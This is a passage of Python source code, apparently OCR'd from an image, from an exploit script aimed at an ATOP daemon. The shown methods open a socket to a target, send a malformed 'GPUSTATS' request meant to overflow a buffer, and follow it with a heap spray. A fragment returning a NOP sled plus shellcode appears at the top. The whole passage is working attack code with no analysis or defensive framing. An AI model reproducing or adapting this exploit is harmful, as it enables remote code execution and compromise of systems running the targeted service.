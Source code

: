         return nop_sled + shellcode
    
    def connect_to_target(self):
        """
        Establish connection to ATOP daemon
        """
        try:
            self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.sock.settimeout(10)
            self.sock.connect((self.target_host, self.target_port))
            print(f"[+] Connected to {self.target_host}:{self.target_port}")
            return True
        except Exception as e:
            print(f"[-] Connection failed: {e}")
            return False
    
    def send_exploit_payload(self):
        """
        Send the malformed GPU data to trigger overflow
        """
        try:
            # Create malformed GPU statistics
            malformed_gpu_data = self.create_malformed_gpu_data()
            heap_spray = self.create_heap_spray_payload()
            
            print(f"[+] Sending malformed GPU data ({len(malformed_gpu_data)} bytes)")
            print(f"[+] Heap spray payload ({len(heap_spray)} bytes)")
            
            # Send GPU statistics request header
            gpu_stats_header = b"GPUSTATS\n"
            self.sock.send(gpu_stats_header)
            
            # Send malformed GPU data
            self.sock.send(malformed_gpu_data)
            self.sock.send(b"\n")
            
            # Send heap spray
            self.sock.send(heap_spray)
            
            print("[+] Exploit payload sent successfully")
            
            # Check for response or crash
            try:
                response = self.sock.recv(1024)
                if response:
                    print(f"[+] Received response: {response[:100]}")
                else:
                    print("[!] No response - possible crash/exploitation")
            except:
                print("[!] Connection lost - possible successful exploitation")
                
